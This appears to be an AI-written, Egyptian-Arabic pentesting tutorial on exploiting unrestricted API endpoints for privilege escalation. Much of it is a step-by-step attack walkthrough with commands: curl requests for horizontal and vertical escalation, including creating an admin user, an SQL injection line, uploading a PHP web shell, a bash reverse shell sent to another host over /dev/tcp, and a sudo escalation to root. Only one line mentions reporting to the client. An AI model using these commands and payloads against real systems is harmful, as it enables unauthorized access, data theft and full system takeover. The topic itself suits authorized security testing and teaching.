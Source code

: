 تمام، هشرح لك "Unrestricted API Endpoints Leading to Privilege Escalation" بعمق شديد، مع تركيز على الجانب العملي، الأوامر، والأكواد. هخلّص كل جزء بالعامية المصرية زي ما تكون بتسمع من صاحبك، وفي الآخر هقدم خطوات عملية للاستغلال في سياق Pentesting.

---

### **1. إيه هو Unrestricted API Endpoints Leading to Privilege Escalation؟**

#### **الشرح العميق:**
"Unrestricted API Endpoints" يعني إن نقاط النهاية (Endpoints) في واجهة برمجة التطبيقات (API) بتاعة موقع أو تطبيق مفتوحة بدون قيود كافية، يعني أي حد يقدر يستخدمها من غير ما يتأكد من صلاحياته. الـ API هو اللي بيخلّي التطبيق يتواصل مع السيرفر (زي طلب بيانات أو تعديل حاجة)، ولما تكون "Unrestricted"، المستخدم العادي يقدر يوصل لصلاحيات أعلى (Privilege Escalation) سواء أفقي (Horizontal) أو عمودي (Vertical). ده بيحصل لما:
- مافيش تحقق من هوية المستخدم أو دوره (Role).
- الـ Endpoint بيسمح بتعديل بيانات أو تنفيذ أوامر المفروض تكون للأدمن بس.
- سوء تصميم أو إعدادات ضعيفة.

#### **الأدوات والأوامر العملية:**
1. **فحص الـ API يدويًا:**
   - لو لقيت طلب زي: `GET http://target.com/api/users/123`.
   - جرب: `GET http://target.com/api/users/1` -> لو جاب بيانات الأدمن، يبقى unrestricted.

2. **اختبار بـ curl:**
   - `curl -X GET http://target.com/api/admin/settings -H "Authorization: Bearer <user_token>"`.
   - لو رجع بيانات لمستخدم عادي، يبقى مفتوح.

3. **استخدام Burp Suite:**
   - Intercept طلبات الـ API -> جرب تغير الـ Endpoint من `/api/user` لـ `/api/admin`.

#### **خلاصة بالعامية المصرية:**
"يعني زي ما تكون حاطط كشك في الشارع بيبيع حاجات VIP، بس أي حد يقدر يخش ياخد من غير ما حد يسأله! Unrestricted API يعني الباب مفتوح للكل يلعب ويطلع الكبير."

---

### **2. ليه المشكلة دي خطيرة؟**

#### **الشرح العميق:**
الـ Endpoints المفتوحة دي خطيرة لأنها بتدي المهاجم وصول لأماكن أو صلاحيات المفروض تكون مقفولة، وده بيؤدي ل:
- **تصعيد أفقي:** مستخدم عادي يشوف أو يعدل بيانات مستخدم تاني.
- **تصعيد عمودي:** يوصل لصلاحيات Admin أو يتحكم في النظام كله.
- **سرقة بيانات:** ياخد معلومات حساسة زي كلمات سر أو بيانات عملاء.
- **تنفيذ أوامر:** لو الـ Endpoint بيسمح، يقدر يرفع Shell أو يخرب النظام.

في الـ Pentesting، الثغرة دي كنز لأنها بتخليك تتحرك بحرية وتصعد صلاحياتك بسهولة لو لقيت Endpoint ضعيف.

#### **الأدوات والأوامر العملية:**
1. **استغلال تصعيد أفقي:**
   - `curl -X GET http://target.com/api/users/999 -H "Cookie: session=<user_session>"`.
   - لو جاب بيانات مستخدم تاني، يبقى مفتوح.

2. **استغلال تصعيد عمودي:**
   - `curl -X POST http://target.com/api/admin/users -d '{"username":"hacker","role":"admin"}' -H "Cookie: session=<user_session>"`.
   - لو أضاف حساب Admin، يبقى unrestricted.

3. **SQL Injection في API:**
   - `curl -X GET "http://target.com/api/user?id=1; SELECT * FROM users --"`.
   - لو جاب بيانات زيادة، يبقى مكشوف.

#### **خلاصة بالعامية المصرية:**
"المشكلة خطيرة لأنها زي ما تكون سايب مكتب المدير مفتوح وأي حد يقدر يخش يتحكم! المهاجم يلاقي الـ API مفتوح، يبقى الباشا بتاع الموقع على طول."

---

### **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الـ Endpoints المفتوحة عشان تتجاوز القيود، تسرق بيانات، أو تصعد صلاحياتك للتحكم الكامل.
- **مثال واقعي:** لو لقيت Endpoint بيسمح لمستخدم عادي يضيف Admin، تستخدمه عشان تبقى الكبير.

#### **خلاصة بالعامية المصرية:**
"لما تلاقي الـ API مفتوح، زي ما تكون لقيت كنز في لعبة، تستخدمه عشان تكسب وتبقى الكبير بتاع الماتش من غير تعب!"

---

### **خطوات عملية للاستغلال في Pentesting**

#### **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.

#### **الخطوة 2: اكتشاف الـ API**
- ابحث عن الـ API:
  - `curl -I http://192.168.1.10/api/` -> لو `200 OK`، يبقى موجود.
- بـ Gobuster:
  - `gobuster dir -u http://192.168.1.10 -w /usr/share/wordlists/dirb/common.txt -x php,json` -> ابحث عن `/api`.

#### **الخطوة 3: اختبار الـ Endpoints**
- لو لقيت حساب User:
  - خد الـ Session Token من Cookie أو Header.
- جرب Endpoints:
  - `curl -X GET http://192.168.1.10/api/users/1 -H "Authorization: Bearer <user_token>"`.
  - لو جاب بيانات الأدمن، يبقى unrestricted.

#### **الخطوة 4: استغلال أفقي**
- `curl -X GET http://192.168.1.10/api/users/999 -H "Authorization: Bearer <user_token>"`.
- لو جاب بيانات مستخدم تاني، سجلها (زي كلمة سر).

#### **الخطوة 5: استغلال عمودي**
- جرب تعديل صلاحيات:
  - `curl -X POST http://192.168.1.10/api/users -d '{"id":1,"role":"admin"}' -H "Authorization: Bearer <user_token>"`.
  - لو نجح، سجل دخول كـ Admin.
- لو فيه Upload:
  - `curl -X POST http://192.168.1.10/api/upload -F "file=@shell.php" -H "Authorization: Bearer <user_token>"`.
  - `shell.php`: `<?php system($_GET['cmd']); ?>`.
  - افتح: `http://192.168.1.10/uploads/shell.php?cmd=id` -> `www-data`.

#### **الخطوة 6: تصعيد الصلاحيات**
- من الـ Shell:
  - `http://192.168.1.10/uploads/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell.
  - `id` -> `www-data` -> `sudo -l` -> لو لقيت `sudo /bin/bash`، نفذه -> `root`.

#### **الخطوة 7: توثيق**
- سجل الـ Endpoints اللي لقيتها مفتوحة (زي `/api/users`).
- قدم تقرير يوضح إزاي الـ API فتح الباب للتصعيد.

#### **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت كشك مفتوح في الشارع، خدت منه كل حاجة، وطلعت الكبير بتاع الحتة! الـ API لما يكون مفتوح، يبقى طريقك للفوز بسهولة."

---

### **الخلاصة النهائية:**
Unrestricted API Endpoints هي ثغرة كبيرة لأنها بتخلّي أي مستخدم يوصل لصلاحيات أعلى من غير قيود. في الـ Pentesting، دور عليها بـ curl أو Burp، استغلها عشان تسرق بيانات، تضيف صلاحيات، أو تاخد Shell، ووري العميل إن نظامه زي بيت مفتوح للكل! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!